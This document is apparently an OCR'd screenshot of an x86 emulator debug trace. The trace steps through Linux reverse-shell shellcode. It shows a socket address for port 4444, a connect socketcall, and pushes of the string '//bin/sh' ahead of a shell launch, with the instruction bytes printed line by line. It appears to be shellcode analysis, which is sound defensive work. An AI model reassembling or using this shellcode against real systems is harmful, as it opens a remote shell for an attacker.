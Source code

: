 [emu 0x0xe76630 debug ] 680200115C                      push dword 0x5c110002
[emu 0x0xe76630 debug ] cpu state    eip=0x00417022
[emu 0x0xe76630 debug ] eax=0x00000000  ecx=0xffffffff  edx=0x00000000  ebx=0x0000000e
[emu 0x0xe76630 debug ] esp=0x00416fbe  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0xe76630 debug ] Flags: PF SF 
[emu 0x0xe76630 debug ] 89E1                            mov ecx,esp
[emu 0x0xe76630 debug ] cpu state    eip=0x00417024
[emu 0x0xe76630 debug ] eax=0x00000000  ecx=0x00416fbe  edx=0x00000000  ebx=0x0000000e
[emu 0x0xe76630 debug ] esp=0x00416fbe  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0xe76630 debug ] Flags: PF SF 
[emu 0x0xe76630 debug ] B066                            mov al,0x66
[emu 0x0xe76630 debug ] cpu state    eip=0x00417026
[emu 0x0xe76630 debug ] eax=0x00000066  ecx=0x00416fbe  edx=0x00000000  ebx=0x0000000e
[emu 0x0xe76630 debug ] esp=0x00416fbe  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0xe76630 debug ] Flags: PF SF 
[emu 0x0xe76630 debug ] 50                              push eax
[emu 0x0xe76630 debug ] cpu state    eip=0x00417027
[emu 0x0xe76630 debug ] eax=0x00000066  ecx=0x00416fbe  edx=0x00000000  ebx=0x0000000e
[emu 0x0xe76630 debug ] esp=0x00416fba  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0xe76630 debug ] Flags: PF SF 
[emu 0x0xe76630 debug ] 51                              push ecx
[emu 0x0xe76630 debug ] cpu state    eip=0x00417028
[emu 0x0xe76630 debug ] eax=0x00000066  ecx=0x00416fbe  edx=0x00000000  ebx=0x0000000e
[emu 0x0xe76630 debug ] esp=0x00416fb6  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0xe76630 debug ] Flags: PF SF 
[emu 0x0xe76630 debug ] 53                              push ebx
[emu 0x0xe76630 debug ] cpu state    eip=0x00417029
[emu 0x0xe76630 debug ] eax=0x00000066  ecx=0x00416fbe  edx=0x00000000  ebx=0x0000000e
[emu 0x0xe76630 debug ] esp=0x00416fb2  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0xe76630 debug ] Flags: PF SF 
[emu 0x0xe76630 debug ] B303                            mov bl,0x3
[emu 0x0xe76630 debug ] cpu state    eip=0x0041702b
[emu 0x0xe76630 debug ] eax=0x00000066  ecx=0x00416fbe  edx=0x00000000  ebx=0x00000003
[emu 0x0xe76630 debug ] esp=0x00416fb2  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0xe76630 debug ] Flags: PF SF 
[emu 0x0xe76630 debug ] 89E1                            mov ecx,esp
[emu 0x0xe76630 debug ] cpu state    eip=0x0041702d
[emu 0x0xe76630 debug ] eax=0x00000066  ecx=0x00416fb2  edx=0x00000000  ebx=0x00000003
[emu 0x0xe76630 debug ] esp=0x00416fb2  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0xe76630 debug ] Flags: PF SF 
[emu 0x0xe76630 debug ] CD80                            int 0x80
connect
[emu 0x0xe76630 debug ] cpu state    eip=0x0041702f
[emu 0x0xe76630 debug ] eax=0x00000000  ecx=0x00416fb2  edx=0x00000000  ebx=0x00000003
[emu 0x0xe76630 debug ] esp=0x00416fb2  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0xe76630 debug ] Flags: PF SF 
[emu 0x0xe76630 debug ] 52                              push edx
[emu 0x0xe76630 debug ] cpu state    eip=0x00417030
[emu 0x0xe76630 debug ] eax=0x00000000  ecx=0x00416fb2  edx=0x00000000  ebx=0x00000003
[emu 0x0xe76630 debug ] esp=0x00416fae  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0xe76630 debug ] Flags: PF SF 
[emu 0x0xe76630 debug ] 686E2F7368                      push dword 0x68732f6e
[emu 0x0xe76630 debug ] cpu state    eip=0x00417035
[emu 0x0xe76630 debug ] eax=0x00000000  ecx=0x00416fb2  edx=0x00000000  ebx=0x00000003
[emu 0x0xe76630 debug ] esp=0x00416faa  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0xe76630 debug ] Flags: PF SF 
[emu 0x0xe76630 debug ] 682F2F6269                      push dword 0x69622f2f
[emu 0x0xe76630 debug ] cpu state    eip=0x0041703a
[emu 0x0xe76630 debug ] eax=0x00000000  ecx=0x00416fb2  edx=0x00000000  ebx=0x00000003
[emu 0x0xe76630 debug ] esp=0x00416fa6  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0xe76630 debug ] Flags: PF SF 
[emu 0x0xe76630 debug ] 89E3                            mov ebx,esp
[emu 0x0xe76630 debug ] cpu state    eip=0x0041703c
[emu 0x0xe76630 debug ] eax=0x00000000  ecx=0x00416fb2  edx=0x00000000  ebx=0x00416fa6